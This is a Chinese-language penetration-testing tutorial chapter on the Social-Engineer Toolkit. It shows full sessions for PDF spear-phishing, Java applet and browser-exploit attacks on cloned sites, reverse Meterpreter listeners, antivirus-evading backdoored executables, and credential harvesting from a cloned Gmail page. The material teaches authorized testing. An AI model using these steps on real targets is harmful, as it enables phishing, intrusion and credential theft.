



## 第十章. 社会工程工具包

社会工程工具包（SET）是为了与 Social-Engineer.org 的发布相配合而开发的，Social-Engineer.org 是由 Chris Hadnagy（loganWHD）构思的一套资源，并由本书的一位作者 David Kennedy 编写。该网站提供了一个集中位置，用于社会工程教程，并解释了术语、定义和场景，这些可以帮助你为黑客攻击人类思维做好准备。

SET 的目的在于填补渗透测试社区中的空白，并提高人们对社会工程攻击的认识。它已经取得了成功——SET 已被下载了 100 万次，现在已成为部署社会工程攻击的行业标准。该工具包攻击人类的弱点，利用好奇心、可信度、贪婪和简单的人类愚蠢。社会工程攻击正处于历史最高水平，并且一直是许多组织面临的一大风险。

当然，社会工程并不是什么新鲜事。一个人试图说服另一个人去做他通常不会做的事情，就像时间一样古老。许多安全社区的人认为，社会工程是组织面临的最大风险之一，因为它极其困难保护组织免受这种方式的攻击。（例如，你可能还记得高度复杂的奥罗拉行动，其中使用了社会工程攻击 Gmail 和其他谷歌数据来源。）

*攻击向量*是获取信息或访问系统的途径。SET 根据攻击向量（如 Web、电子邮件和基于 USB 的攻击）对攻击进行分类。它使用电子邮件、伪造网站和其他向量来接触人类目标，通常通过欺骗个人使目标妥协或泄露敏感信息。自然地，每个向量根据其目标和所使用的通信方式，可以有不同的成功率。SET 还预装了可用于社会工程攻击的电子邮件和网站模板。SET 大量使用 Metasploit 框架。

由于攻击本身的社会性质，本章中的每个示例都附有一个简短的故事。

## 配置社会工程工具包

默认情况下，在 Back|Track 中，SET 位于*/pentest/exploits/set/*目录。在开始之前，请确保你正在运行 SET 的最新版本。

```
root@bt:/pentest/exploits/set# `svn update`
```

接下来，根据你试图达成的目标配置你的 SET 配置文件。我们将在根 SET 目录下的*config/set_config*配置文件中介绍一些简单的功能。

当使用 SET 基于 Web 的攻击向量时，你可以打开`WEBATTACK_EMAIL`标志，与 Web 攻击一起执行电子邮件钓鱼。默认情况下，此标志是关闭的，这意味着你将配置 SET 并使用 Web 攻击向量，而不使用电子邮件钓鱼的支持。

```
METASPLOIT_PATH=/opt/framework3/msf3

WEBATTACK_EMAIL=ON
```

SET 中可用的基于 Web 的攻击之一是*Java 小程序攻击*，它使用自签名的 Java 小程序。默认情况下，此攻击使用*Microsoft*作为发布者名称；然而，如果已安装 Java 开发工具包（JDK），您可以开启此选项并使用您想要的任何名称对小程序进行签名。当您开启此标志时，界面将通过额外的选项提供更多选项。

```
SELF_SIGNED_APPLET=ON
```

`AUTO_DETECT`设置是其中最重要的标志之一，默认情况下是开启的。它告诉 SET 自动检测您的本地 IP 地址，并将其用作反向连接和 Web 服务器的地址。如果您正在使用多个接口或您的反向有效负载监听器位于不同的位置，请关闭此标志。当此选项关闭时，SET 将允许您指定多个场景以确保使用正确的 IP 地址方案，例如，在包含 NAT 和端口转发的场景中。这些选项在 SET 界面中体现出来。

```
AUTO_DETECT=OFF
```

当您使用工具包时，默认情况下它使用内置的 Python 基于 Web 的服务器。为了优化性能，将`APACHE_SERVER`标志设置为`ON`，SET 将使用 Apache 进行攻击。

```
APACHE_SERVER=ON
```

这些是配置文件的基本内容。正如您所看到的，您可以根据工具中设置的标志来显著改变 SET 的行为。现在让我们运行这个工具。

## 鱼叉式网络钓鱼攻击向量

*鱼叉式网络钓鱼攻击向量*专门制作文件格式漏洞（如 Adobe PDF 漏洞）并主要发送包含附件的电子邮件攻击到目标，当打开时，会危害目标机器。SET 可以使用简单邮件传输协议（SMTP）开放中继（匿名和认证的），Gmail 和 Sendmail 来发送电子邮件。SET 还可以使用标准电子邮件或基于 HTML 的电子邮件来执行网络钓鱼攻击。

让我们考虑一个针对公司 CompanyXYZ 的现实世界渗透测试。您注册一个类似于 Company XYZ 的域名，比如*coompanyxyz.com*。然后，您注册子域名*coom.panyXYZ.com*。接下来，您向目标组织发送鱼叉式网络钓鱼攻击，知道大多数员工只是浏览电子邮件，并会打开任何看似合法的附件。在这种情况下，我们将发送一个 PDF 文件格式的漏洞到我们的目标，如下所示。

```
root@bt:/pentest/exploits/set# `./set`

  Select from the menu:

 1\.  Spear-Phishing Attack Vectors
  2\.  Website Attack Vectors
  3\.  Infectious Media Generator
  4\.  Create a Payload and Listener
  5\.  Mass Mailer Attack
  6\.  Teensy USB HID Attack Vector
  7\.  SMS Spoofing Attack Vector
  8\.  Wireless Access Point Attack Vector
  9\.  Third Party Modules
  10\. Update the Metasploit Framework
  11\. Update the Social-Engineer Toolkit
  12\. Help, Credits, and About
  13\. Exit the Social-Engineer Toolkit

  Enter your choice: `1`

  Welcome to the SET E-Mail attack method. This module allows you
  to specially craft email messages and send them to a large (or small)
  number of people with attached fileformat malicious payloads. If you
  want to spoof your email address, be sure "Sendmail" is installed (it
  is installed in BT4) and change the config/set_config SENDMAIL=OFF flag
  to SENDMAIL=ON.

  There are two options, one is getting your feet wet and letting SET do
  everything for you (option 1), the second is to create your own FileFormat
  payload and use it in your own attack. Either way, good luck and enjoy!

1\. Perform a Mass Email Attack
  2\. Create a FileFormat Payload
  3\. Create a Social-Engineering Template
  4\. Return to Main Menu

  Enter your choice: `1`

  Select the file format exploit you want.
  The default is the PDF embedded EXE.

  ********** PAYLOADS **********

  1\.  SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)
  2\.  SET Custom Written Document UNC LM SMB Capture Attack
  3\.  Microsoft Windows CreateSizedDIBSECTION Stack Buffer Overflow
  4\.  Microsoft Word RTF pFragments Stack Buffer Overflow (MS10-087)
  5\.  Adobe Flash Player 'Button' Remote Code Execution
  6\.  Adobe CoolType SING Table 'uniqueName' Overflow
  7\.  Adobe Flash Player 'newfunction' Invalid Pointer Use
 8\.  Adobe Collab.collectEmailInfo Buffer Overflow
  9\.  Adobe Collab.getIcon Buffer Overflow
  10\. Adobe JBIG2Decode Memory Corruption Exploit
  11\. Adobe PDF Embedded EXE Social Engineering
  12\. Adobe util.printf() Buffer Overflow
  13\. Custom EXE to VBA (sent via RAR) (RAR required)
  14\. Adobe U3D CLODProgressiveMeshDeclaration Array Overrun
  15\. Adobe PDF Embedded EXE Social Engineering (NOJS)
  16\. Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow
  17\. Nuance PDF Reader v6.0 Launch Stack Buffer Overflow

  Enter the number you want (press enter for default): `8`

  1\. Windows Reverse TCP Shel              Spawn a command shell
 on victim and send back to
                                               attacker.
  2\. Windows Meterpreter Reverse_TCP       Spawn a
 meterpreter shell on victim and send back
                                               to attacker.
  3\. Windows Reverse VNC DLL               Spawn a VNC server
 on victim and send back to
                                               attacker.
  4\. Windows Reverse TCP Shell (x64)       Windows X64 Command Shell,
 Reverse TCP Inline
  5\. Windows Meterpreter Reverse_TCP (X64) Connect back to the attacker (Windows x64),
                                               Meterpreter
  6\. Windows Shell Bind_TCP (X64)          Execute payload and
 create an accepting port on
                                               remote system.
  7\. Windows Meterpreter Reverse HTTPS     Tunnel communication
 over HTTP using SSL and use
                                               Meterpreter.

 Enter the payload you want (press enter for default):
  [*] Windows Meterpreter Reverse TCP selected.
  Enter the port to connect back on (press enter for default):
  [*] Defaulting to port 443...
  [*] Generating fileformat exploit...
  [*] Please wait while we load the module tree...
  [*] Started reverse handler on 10.10.1.112:443
  [*] Creating 'template.pdf' file...
  [*] Generated output file /pentest/exploits/set/src/program_junk/template.pdf
  [*] Payload creation complete.
  [*] All payloads get sent to the src/msf_attacks/template.pdf directory
  [*] Payload generation complete. Press enter to continue.

  As an added bonus, use the file-format creator in SET to create your attachment.
  Right now the attachment will be imported with filename of 'template.whatever'
  Do you want to rename the file?
  example Enter the new filename: moo.pdf

 1\. Keep the filename, I don't care.
  2\. Rename the file, I want to be cool.

  Enter your choice (enter for default): `1`
  Keeping the filename and moving on.
```

从 SET 主菜单中选择`Spear-Phishing Attack Vectors` ，然后选择`Perform a Mass Email Attack` 。此攻击使用 Adobe `Collab.collectEmailInfo`漏洞 感染 PDF 文件，这是一个 SET 默认的 Metasploit Meterpreter 反向有效负载 。"Collab.collectEmailInfo"是一个基于堆的漏洞，如果打开（并且如果目标版本的 Adobe Acrobat 容易受到此漏洞攻击），它将连接到攻击工作站的 443 端口，这通常允许大多数网络的外出流量。

你还可以选择重命名恶意文件，使其对目标更具吸引力以打开。在这个场景中，为了演示目的，默认名称(*template.pdf*)被选中![]。

```
Social Engineer Toolkit Mass E-Mailer

  There are two options on the mass e-mailer, the first would
  be to send an email to one individual person. The second option
  will allow you to import a list and send it to as many people as
  you want within that list.

  What do you want to do:

 1\. E-Mail Attack Single Email Address
  2\. E-Mail Attack Mass Mailer
  3\. Return to main menu.

  Enter your choice: `1`

  Do you want to use a predefined template or craft
  a one time email template.

 1\. Pre-Defined Template
  2\. One-Time Use Email Template

  Enter your choice: `1`
  Below is a list of available templates:

  1: New Update
  2: Computer Issue
  3: Strange internet usage from your computer
  4: LOL...have to check this out...
 5: Status Report
  6: Pay Raise Application Form
  7: WOAAAA!!!!!!!!!! This is crazy...
  8: BasketBall Tickets
  9: Baby Pics
  10: Have you seen this?
  11: Termination List
  12: How long has it been?
  13: Dan Brown's Angels & Demons

  Enter the number you want to use: `5`

 Enter who you want to send email to: `ihazomgsecurity@secmaniac.com`

  What option do you want to use?

  1\. Use a GMAIL Account for your email attack.
  2\. Use your own server or open relay

  Enter your choice: `1`
 Enter your GMAIL email address: `fakeemailaddy@gmail.com`
  Enter your password for gmail (it will not be displayed back to you):

  SET has finished delivering the emails.
```

接下来，我们使用 SET 预定义的电子邮件模板 `状态报告`![]将这次攻击发送到单个电子邮件地址(**`ihazomgsecurity@secmaniac.com`**) ![]，并将恶意文件发送到那里，让 SET 使用 Gmail 账户![]发送消息。

最后，创建一个 Metasploit 监听器以连接回![]。当 SET 启动 Metasploit 时，它会配置所有必要的选项，并开始在之前配置的 443 端口上监听你的攻击 IP 地址![]。

```
 Do you want to setup a listener yes or no: `yes`

  resource (src/program_junk/meta_config)> use exploit/multi/handler
  resource (src/program_junk/meta_config)> set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  resource (src/program_junk/meta_config)> set LHOST 10.10.1.112
  LHOST => 10.10.1.112
  resource (src/program_junk/meta_config)> set LPORT 443
  LPORT => 443
  resource (src/program_junk/meta_config)> set ENCODING shikata_ga_nai
  ENCODING => shikata_ga_nai
  resource (src/program_junk/meta_config)> set ExitOnSession false
  ExitOnSession => false
  resource (src/program_junk/meta_config)> exploit -j
  [*] Exploit running as background job.
 [*] Started reverse handler on 10.10.1.112:443
  [*] Starting the payload handler...
  msf exploit(handler) >
```

我们刚刚针对 ihazomgsecurity@secmaniac.com 设置了一次攻击，为收件人制作了一封电子邮件，并使用了 Adobe 文件格式漏洞。SET 允许我们创建模板，并在使用工具时动态导入它们。当目标打开电子邮件并双击 Adobe 文件时，他将看到类似图 10-1 的内容。

图 10-1. 目标查看受感染的 PDF 文件

目标打开 PDF 文件时认为它是合法的，但他的系统瞬间被破坏。在攻击者一方，你将看到以下情况：

```
[*] Started reverse handler on 10.10.1.112:443
[*] Starting the payload handler...
msf exploit(handler) > [*] Sending stage (748032 bytes) to 10.10.1.102
[*] Meterpreter session 1 opened (10.10.1.112:443 -> 10.10.1.102:58087)

msf exploit(handler) > `sessions -i 1`
[*] Starting interaction with 1...

meterpreter > `shell`
Process 2976 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Bob\Desktop>
```

这个例子使用了一次鱼叉式网络钓鱼攻击来针对一个用户，但 SET 也可以使用“群发邮件”选项来攻击多个目标。你还可以创建可重复使用的自定义模板，而不是使用 SET 中包含的预构建模板。

## Web 攻击向量

Web 攻击向量可能是 SET 最先进和最令人兴奋的方面之一，因为它们被特别设计成对目标来说是可信和诱人的。SET 可以克隆看起来与受信任站点完全相同的网站，从而确保目标会认为他正在访问一个合法网站。

### Java 小程序

Java 小程序攻击是 SET 中最成功的攻击向量之一。小程序本身是由 SET 的开发者之一，托马斯·沃斯（Thomas Werth）创建的。这种攻击引入了一个恶意 Java 小程序，它可以智能地检测浏览器（因此你的漏洞可以利用）并将有效载荷发送到目标机器。Java 小程序攻击不被视为 Java 的漏洞。当目标浏览恶意网站时，他会看到一个警告，询问他是否想要运行不受信任的 Java 小程序。因为 Java 允许你使用你选择的任何名称对小程序进行签名，你可以将发布者称为 Google、Microsoft 或任何其他字符串。通过编辑*set_config*文件并将`WEBATTACK_EMAIL`设置为`ON`，你还可以将群发电子邮件与这种攻击相结合。

让我们通过一个现实世界的例子来了解——为一个财富 1000 强公司进行的渗透测试。首先，注册了一个与实际公司网站类似的仿冒域名。接下来，攻击者使用 Metasploit 中的收割器模块在互联网上搜索使用 `<company>.com` 电子邮件地址。从公共网站上提取了 200 个电子邮件地址后，向这些地址发送了大量电子邮件。攻击电子邮件声称来自公司的通讯部门，要求员工查看新设计的公司网站。每封电子邮件都根据收件人的姓名进行了个性化处理，并声称员工可以点击链接查看公司主页上的自己的照片。电子邮件说，这个新网站展示了员工的照片，作为他辛勤工作的证明。好奇心和恐惧是促使每个目标立即点击 URL 的主要动机。

目标点击链接后，弹出一个 Java 小程序通知，由员工的公司签名。目标点击运行命令，因为通知看起来是合法的；然而，该命令基于虚假域名下的克隆网站。尽管员工没有看到他们的照片，但他们看到一个看起来合法的网站，没有意识到他们的机器已被入侵：当用户点击 Java 小程序安全提示中的运行时，执行了一个有效载荷，并将 shell 传送给攻击者。一旦有效载荷执行完毕，目标被重定向回合法网站。

SET 可以用来克隆一个网站并重写其部分内容，使得当目标访问恶意网站时，它看起来与原始网站相同。让我们看看我们如何在 SET 中设置针对一个虚构网站 [`www.secmaniac.com/`](http://www.secmaniac.com/) 的攻击：

```
root@bt:/pentest/exploits/set# `./set`

  Select from the menu:

 2\.  Website Attack Vectors

  Enter your choice: `2`

 1\. The Java Applet Attack Method

  Enter your choice (press enter for default): `1`

  The first method will allow SET to import a list of pre-defined
  web applications that it can utilize within the attack.

  The second method will completely clone a website of your choosing
  and allow you to utilize the attack vectors within the completely
  same web application you were attempting to clone.

  The third method allows you to import your own website, note that you
  should only have an index.html when using the import website
  functionality.

  [!] Website Attack Vectors [!]

  1\. Web Templates
 2\. Site Cloner
  3\. Custom Import
  4\. Return to main menu

  Enter number (1-4): `2`

  SET supports both HTTP and HTTPS
  Example: http://www.thisisafakesite.com
 Enter the url to clone: `http://www.secmaniac.com`

  [*] Cloning the website: http://www.secmaniac.com
  [*] This could take a little bit...
  [*] Injecting Java Applet attack into the newly cloned website.
  [*] Filename obfuscation complete. Payload name is: 0xvV3cYfbLBI3
  [*] Malicious java applet website prepped for deployment
```

要开始这个攻击场景，从 SET 主菜单中选择 `网站攻击向量` 。使用 `Java Applet 攻击方法` ，然后从后续菜单中选择 `网站克隆器` 。最后，告诉 SET 克隆 SecManiac 网站 。

```
What payload do you want to generate:

  Name:                                      Description:

  2\. Windows Reverse_TCP Meterpreter         Spawn a meterpreter
 shell on victim and send
                                                 back to attacker.

 Enter choice (hit enter for default):

  Below is a list of encodings to try and bypass AV.

  Select one of the below, 'backdoored executable' is typically the best.

  16\. Backdoored Executable (BEST)

 Enter your choice (enter for default):
  [-] Enter the PORT of the listener (enter for default):

  [-] Backdooring a legit executable to bypass Anti-Virus. Wait a few seconds...
  [-] Backdoor completed successfully. Payload is now hidden
 within a legit executable.

  ********************************************************
  Do you want to create a Linux/OSX reverse_tcp payload
  in the Java Applet attack as well?
  ********************************************************

  Enter choice yes or no: `no`

  ***************************************************
  Web Server Launched. Welcome to the SET Web Attack.
  ***************************************************

  [--] Tested on IE6, IE7, IE8, Safari, Chrome, and FireFox [--]

  [*] Launching MSF Listener...
  [*] This may take a few to load MSF...
```

与其他 SET 攻击方法一样，攻击者可以使用各种有效载荷。默认的反向 Meterpreter 有效载荷  通常是一个很好的选择。对于这个场景，当被提示选择编码器和用于重新连接的端口时，您可以简单地选择默认设置 。

配置完成后，SET 启动 Metasploit：

```
resource (src/program_junk/meta_config)> exploit -j
  [*] Exploit running as background job.

 [*] Started reverse handler on 10.10.1.112:443
  [*] Starting the payload handler...
  msf exploit(handler) >
```

SET 将所有必要的选项传递给 Metasploit，然后 Metasploit 在端口 443 上设置反向 Meterpreter 监听器 。

* * *

### 注意

您已经创建了一个托管克隆实例的 Web 服务器[`www.secmaniac.com/`](http://www.secmaniac.com/)。如果您将配置文件更改以包含`WEBATTACK_EMAIL=ON`，您将提示使用鱼叉式网络钓鱼攻击向量（不包含附件）发送电子邮件。

* * *

现在一切准备就绪，您只需让目标浏览到恶意网站。当目标到达网站时，目标会看到来自发布者 Microsoft 的弹出警告，如图图 10-2 所示。如果目标点击运行，大多数用户都会这样做，有效载荷将被执行，您将完全控制目标用户的系统。

* * *

### 注意

回想一下，SET 的配置可以自行签名 Java 小程序，使其具有任何您想要的属性。记住，当目标点击运行并执行和交付有效载荷时，目标将被重定向到合法的 SecManiac 网站。

* * *

图 10-2. Java 小程序提示

返回到我们的攻击者机器，Meterpreter 会话已成功建立，我们现在可以访问目标机器，如图所示。

```
msf exploit(handler) > [*] Sending stage (748032 bytes) to 10.10.1.102
[*] Meterpreter session 1 opened (10.10.1.112:443 -> 10.10.1.102:58550)

msf exploit(handler) > `sessions -i 1`
[*] Starting interaction with 1...

shellmeterpreter > `shell`
Process 2800 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>
```

### 客户端 Web 漏洞

SET 还可以使用客户端 Web 漏洞。在这种情况下，不是向目标展示 Java 小程序，而是使用直接从 Metasploit 导入的客户端漏洞来攻击系统。要使用客户端漏洞，您必须依赖您之前的侦察或希望用户容易受到特定漏洞的影响。如果发现零日漏洞，这种方法尤其令人满意：一旦 Metasploit 发布漏洞利用，通常在小时内就会通过 SET 进行测试和发布。

在这个例子中，我们将重复之前的场景，但我们将使用客户端攻击。客户端攻击特别针对（主要是）浏览器漏洞。SET 中的大多数漏洞利用都针对 Internet Explorer；然而，Firefox 的漏洞利用也被使用。在这个场景中，我们将使用用于入侵 Google 的 Aurora 攻击向量。首先，执行以下操作：

```
root@bt:/pentest/exploits/set# `./set`

  Select from the menu:

 2\.  Website Attack Vectors
  Enter your choice: `2`

 2\. The Metasploit Browser Exploit Method

  Enter your choice (press enter for default): `2`

  [!] Website Attack Vectors [!]

 2\. Site Cloner

  Enter number (1-4): `2`

  SET supports both HTTP and HTTPS
  Example: http://www.thisisafakesite.com
 Enter the url to clone: `http://www.secmaniac.com`
```

从 SET 主菜单中选择`网站攻击向量` ，然后选择`Metasploit 浏览器漏洞利用方法` 。然后选择`网站克隆器` 选项，并输入[`www.secmaniac.com`](http://www.secmaniac.com) 作为您想要用于克隆的网站。

一旦网站被克隆，我们将设置漏洞，以便在目标浏览网站时触发。

```
Enter the browser exploit you would like to use

 16\. Microsoft Internet Explorer "Aurora"

  Enter your choice (1-23) (enter for default): `16`
  What payload do you want to generate:

  Name:                                      Description:

  2\. Windows Reverse_TCP Meterpreter         Spawn a meterpreter
 shell on victim and send
                                                 back to attacker.

 Enter choice (example 1-10) (Enter for default):
  Enter the port to use for the reverse (enter for default):

  [*] Cloning the website: http://www.secmaniac.com
  [*] This could take a little bit...
  [*] Injecting iframes into cloned website for MSF Attack....
  [*] Malicious iframe injection successful...crafting payload.
  [*] Launching MSF Listener...
  [*] This may take a few to load MSF...

  resource (src/program_junk/meta_config)> exploit -j
  [*] Exploit running as background job.
  msf exploit(ms10_002_aurora) >
  [*] Started reverse handler on 10.10.1.112:443
  [*] Using URL: http://0.0.0.0:8080/
  [*]  Local IP: http:// 10.10.1.112:8080/
  [*] Server started.
```

要完成攻击设置，选择您希望使用的客户端漏洞。在上面的示例中，我们选择了臭名昭著的 Internet Explorer Aurora 漏洞 ，并通过按回车键 接受默认的逆向 Meterpreter 有效载荷。

当目标达到[`www.secmaniac.com/`](http://www.secmaniac.com/)时，网站看起来正常，但他的系统通过*iframe 注入*被破坏。SET 自动重写网站以包含包含 Metasploit 客户端攻击的 iframe。

在攻击机器上，我们看到攻击成功。Meterpreter 会话已从目标建立到攻击机器的连接，我们完全访问了系统，如图所示。

```
msf exploit(handler) >
[*] Sending stage (748032 bytes) to 10.10.1.102
[*] Meterpreter session 1 opened (10.10.1.112:443 -> 10.10.1.102:58412)

msf exploit(handler) > `sessions -i 1`
[*] Starting interaction with 1...

shellmeterpreter > `shell`
Process 2819 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>
```

### 用户名和密码收割

在前面的示例中，目标是获取对单个系统的访问权限。相对较新的 SET 功能是能够克隆网站并在访问者访问网站时收割他们的凭证，正如我们将在下一个示例中使用 Gmail 来展示的那样。SET 可以创建 Gmail 网站的克隆，然后自动重写该网站的 POST 参数以发送到 SET Web 服务器，然后重定向用户到合法克隆的网站。

```
 3\. Credential Harvester Attack Method

  Enter your choice (press enter for default): `3`

  [!] Website Attack Vectors [!]

 2\. Site Cloner

  Enter number (1-4): `2`

  Email harvester will allow you to utilize the clone capabilities within SET
  to harvest credentials or parameters from a website as well as place them into
  a report.

  SET supports both HTTP and HTTPS
  Example: http://www.thisisafakesite.com
 Enter the url to clone: `http://www.secmaniac.com`

  Press {return} to continue.
  [*] Social-Engineer Toolkit Credential Harvester Attack
  [*] Credential Harvester is running on port 80
  [*] Information will be displayed to you as it arrives below:
```

在您选择“网站攻击向量”和“凭证收割机”之后，选择“站点克隆器”。此攻击的配置很简单，只需您提供一个包含登录表单的 URL ([`www.secmaniac.com`](http://www.secmaniac.com))给 SET 即可。

Web 服务器运行并等待目标的响应。如前所述，在这种情况下，您可以设置`WEBATTACK_CONFIG=ON`，SET 会提示您尝试群发邮件以诱使目标点击链接。目标将看到一个看起来与 Gmail 网站和初始登录页面完全相同的网页。当目标输入他的密码时，浏览器会自动重定向到原始 Gmail 网站，同时以下信息呈现给攻击者：

```
10.10.1.102 - - "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: ltmpl=default
PARAM: ltmplcache=2
PARAM: continue=https://mail.google.com/mail/?
PARAM: service=mail
PARAM: rm=false
PARAM: dsh=-1174166214807618980
PARAM: ltmpl=default
PARAM: ltmpl=default
PARAM: scc=1
PARAM: ss=1
PARAM: GALX=S3ftXFIww0E
`POSSIBLE USERNAME FIELD FOUND: Email=ihazomgsecurity2390239203`
`POSSIBLE PASSWORD FIELD FOUND: Passwd=thisisacomplexp@55w0rd!!!!!`
PARAM: rmShown=1
PARAM: signIn=Sign+in
PARAM: asts=
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```

SET 使用内置字典来标记可能包含敏感信息的网站上的表单字段和参数。它将潜在的用戶名和密码参数以红色高亮显示，以表明它们可能是值得调查的敏感参数。

在收割完所有目标凭据后，按 ctrl-C 生成报告，如图图 10-3 所示。报告使用 XML 和 HTML 格式。

SET 的 Web 服务器是多线程的，可以处理与您的服务器相同数量的请求。当多个目标将凭据输入到网站时，SET 将自动将这些结果解析成报告格式，以可读的格式分离表单字段。

您还可以将凭证收割结果导出为符合 XML 格式的文件，以便稍后导入您已经使用的工具或解析器。

图 10-3. 凭证收割机报告

### Tabnabbing

在一个 *tabnabbing* 场景中，目标在打开多个标签页访问网站时被捕获。当目标点击一个链接时，他会看到一个“请等待页面加载”的消息。当目标切换标签页时，网站检测到不同的标签页获得了焦点，并用你指定的网站重写了显示“请等待……”消息的网页。

最终，目标点击了 tabnabbing 标签页，并认为他被要求登录到他的电子邮件程序或商业应用，于是他在恶意的相似网站上输入了他的凭证。凭证被捕获，目标被重定向到原始网站。您可以通过 SET 的 Web 攻击向量界面访问 tab-nabbing 攻击向量。

### Man-Left-in-the-Middle

*Man-left-in-the-Middle* 攻击使用已受损害的网站或跨站脚本（XSS）漏洞上的 HTTP referers 将目标的凭证传递回 HTTP 服务器。如果您发现一个 XSS 漏洞并将 URL 发送给目标，目标点击链接后，网站将正常运行，但当目标登录系统时，他的凭证会被传递给攻击者。Man-left-in-the-Middle 攻击向量可以通过 SET 的 Web 攻击向量界面访问。

### Web Jacking

SET 版本 0.7 中引入的 *web jacking* 攻击方法允许您创建一个网站克隆，目标会看到一个链接，表明网站已迁移。当目标悬停在链接上时，显示的 URL 是真实 URL，而不是攻击者的 URL。例如，如果您正在克隆[`gmail.com/`](https://gmail.com/)，当目标将鼠标悬停在链接上时，目标机器上显示的 URL 将是[`gmail.com/`](https://gmail.com/)。当目标点击链接时，Gmail 会打开，但很快就被您的恶意 Web 服务器所取代。

这种攻击使用基于时间的 iframe 替换。当目标悬停在链接上时，它指向您克隆的任何网站。当目标点击链接时，iframe 替换将启动并替换目标浏览器，用恶意克隆网站替换，而目标并不知道。您可以使用`config/set_config`标志更改 web jacking 攻击的时间。

要配置 SET 进行攻击，选择`Web Jacking Attack Method`  和 `Site Cloner` ，然后添加您想要克隆的网站，[`gmail.com`](https://gmail.com) ，如下所示。

```
 6\. Web Jacking Attack Method

  Enter your choice (press enter for default): `6`

  [!] Website Attack Vectors [!]

 2\. Site Cloner

  Enter number (1-4): `2`

  SET supports both HTTP and HTTPS
  Example: http://www.thisisafakesite.com
 Enter the url to clone: `https://gmail.com`

  [*] Cloning the website: https://gmail.com
  [*] This could take a little bit...

  The best way to use this attack is if username and password form
  fields are available. Regardless, this captures all POSTs on a website.
  [*] I have read the above message. [*]

  Press {return} to continue.

  [*] Web Jacking Attack Vector is Enabled...Victim needs to click the link.
```

当目标访问克隆的网站时，他将看到图 10-4 中显示的链接。注意，左下角的 URL 显示为[`gmail.com/`](https://gmail.com/)。

图 10-4. 初始页面和克隆页面的链接

当目标点击链接时，他看到的克隆网页如图 10-5 所示，看起来与真实的 Gmail 欢迎页面一模一样。

图 10-5. 克隆的 Gmail 欢迎页面

注意，图 10-5 顶部显示的 URL 文本显示了我们的恶意网络服务器。与前面的示例一样，您可以注册一个类似的域名来避免这个问题。一旦目标在适当的字段中输入用户名和密码，您就可以拦截并收集凭证。

### 使用多管齐下的攻击将所有内容组合在一起

多攻击网络向量允许您将多个网络攻击方法串联起来执行单一攻击。多攻击向量允许您打开和关闭不同的向量，并将攻击组合到一个网页中。当用户点击链接时，他将成为您指定的每个攻击向量的目标。多管齐下的攻击特别有用，因为在某些情况下，Java 小程序可能会失败，而客户端的 Internet Explorer 漏洞利用可能会成功。或者，Java 小程序和 Internet Explorer 漏洞利用可能会失败，但凭证收集器会成功。

在以下示例中，我们将使用 Java 小程序攻击、Metasploit 客户端漏洞利用和 Web 劫持攻击。当目标浏览受影响的网站时，他将被诱惑点击链接，然后会被凭证收集器、Metasploit 漏洞利用和 Java 小程序攻击所轰炸。这里我们将选择一个 Internet Explorer 7 漏洞利用，并使用 Internet Explorer 6 浏览目标机器，只是为了演示如果一种方法失败，其他方法可以被使用。

```
1\. The Java Applet Attack Method
  2\. The Metasploit Browser Exploit Method
  3\. Credential Harvester Attack Method
  4\. Tabnabbing Attack Method
  5\. Man Left in the Middle Attack Method
  6\. Web Jacking Attack Method
 7\. Multi-Attack Web Method
  8\. Return to the previous menu

  Enter your choice (press enter for default): `7`

  [!] Website Attack Vectors [!]

 2\. Site Cloner

  Enter number (1-4): `2`

 Enter the url to clone: `https://gmail.com`
  Select which attacks you want to use:

 1\. The Java Applet Attack Method (OFF)
 2\. The Metasploit Browser Exploit Method (OFF)
  3\. Credential Harvester Attack Method (OFF)
  4\. Tabnabbing Attack Method (OFF)
  5\. Man Left in the Middle Attack Method (OFF)
 6\. Web Jacking Attack Method (OFF)
  7\. Use them all - A.K.A. 'Tactical Nuke'
  8\. I'm finished and want to proceed with the attack.
  9\. Return to main menu.

  Enter your choice one at a time (hit 8 or enter to launch): `1`

  Turning the Java Applet Attack Vector to ON

  Select which attacks you want to use:

  Enter your choice one at a time (hit 8 or enter to launch): `2`

  Turning the Metasploit Client Side Attack Vector to ON

  Option added. Press {return} to add or prepare your next attack.

  Select which attacks you want to use:

  Enter your choice one at a time (hit 8 or enter to launch): `6`

  Turning the Web Jacking Attack Vector to ON

  Select which attacks you want to use:

  `. . . SNIP . . .`

